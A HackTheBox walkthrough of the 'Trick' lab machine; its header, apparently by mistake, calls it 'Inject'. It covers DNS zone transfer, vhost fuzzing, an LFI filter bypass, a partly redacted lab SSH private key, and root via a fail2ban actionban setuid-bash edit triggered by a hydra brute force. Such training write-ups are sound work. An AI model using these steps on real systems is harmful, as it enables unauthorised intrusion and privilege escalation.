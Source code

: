 ```yaml
---
title: "HackTheBox - Inject"
date: 2023-05-28 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Trick/Trick.png)


## Introduction

- Name : Trick
- IP Adress : ``10.10.11.166``
- Difficulty : Easy
- Release date : 19/06/22

## Foothold

First, add ````Trick.htb```` to your hosts file.

### Scan

Let's start with a *Nmap* scan : 
````
nmap -A -p- 10.10.11.166
````

We can see there are four open ports : 
````
# Nmap 7.92 scan initiated Mon Oct 24 16:24:17 2022 as: nmap -p- -A -oN nmap.txt trick.htb
Nmap scan report for trick.htb (10.10.11.166)
Host is up (0.025s latency).
rDNS record for 10.10.11.166: Trick.htb
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 16:25:27 2022 -- 1 IP address (1 host up)
````

### DNS with *dig*

The DNS port look interesting, so we will check with *dig* :
````
dig axfr trick.htb @10.10.11.166
````

The output shows a new domain : ``preprod-payroll.trick.htb``. Add this in your hosts file, we will see later.

### Websites Enumeration

On the main page of the website, there is nothing interesting. 

Now, we will go on ``preprod-payroll.trick.htb``. We have a login page. When we fuzz the website, there are interesting pages as ``users.php`` and in the source code : ``manage_users.php`` with a parameter ``?id=``. Change to 1 and we have some creds !

![](../assets/img/Trick/password_web.png)

Now, go on the login page and connect. 

![](../assets/img/Trick/home_web.png)

But we are stuck here. Here was the guessing part because there is another domain to find. Try with *ffuf*.
````
ffuf -w /path/to/wordlist.txt -H 'Host: preprod-FUZZ.trick.htb' -u http://trick.htb -fw 1697
````
And we have a new domain : ``preprod-marketing.trick.htb``. When you fuzz the website, look at the URL:

![](../assets/img/Trick/url.png)

Here, there is a **LFI**. A little filter is present. Just bypass this one with ``..//``.

![](../assets/img/Trick/lfi.jpg)

### User flag

So we know that there is a user : ``mickael``. Let's see if there is a ssh key in his profile.

````
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdn--------------------------------------l6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS-----------------------------------------ZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3k----------------------------------------------------------Yr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
````

Now connect with the ssh key, and we have the user flag.

![](../assets/img/Trick/proof1.jpg)

## Privilege Escalation

Let's check the sudo rights with a ``sudo -l`` : 

![](../assets/img/Trick/sudo-l.png)

We can see *fail2ban* in the command, so we can think there is a link between root and *fail2ban* for the privesc. 

When we go in ``/etc/fail2ban/action.d/``, we have the right to read and write because we belong to the group ``security(1002)``.

If we can write in this folder, we can modify some rules : 
- Modify the ``iptables-multiport.conf`` file
- Modify a line
- Be ban with ssh bruteforce
- Have a shell

So FIRST,
````
mv iptables-multiport.conf iptables.bak
cp iptables.bak iptables-multiport.conf
chmod 666 iptables-multiport.conf
````

![](../assets/img/Trick/manip.png)

Now, we can write on the ``actionban`` line:
````
chmod u+s /bin/bash
````

![](../assets/img/Trick/modif.png)

*Note : You can put also another command like a reverse shell.*

Important : You need to restart the *fail2ban* service with the sudo command !
````
sudo /etc/init.d/fail2ban restart
````
Like this:

![](../assets/img/Trick/restart.png)

All modifications are saved in the config. So now, we need to be ban !

Last Step: 

You have two options:
- Manually (just connect with ssh service and put bad password x5)
- **Hydra** 

With **hydra**:

Just use the syntax:
````
hydra -l root -P /path/to/wordlist.txt -s 22 10.10.11.166 ssh
````

Wait a little time and ...

![](../assets/img/Trick/shell_setuid.png)

..BOOM, we are root !

If you want a better shell, use ssh key in ``/root/.ssh/`` directory and connect.

![](../assets/img/Trick/Screenshot_2022-10-24_16-10-23.png)

Really root :)


## Conclusion

It was a good box for beginners with many step. The guessing side was a little hard to find and I was stuck a time.

I think it is a 4/5 for the note.

Thanks for reading !

[HackTheBox - Completed](https://www.hackthebox.com/achievement/machine/356950/477)

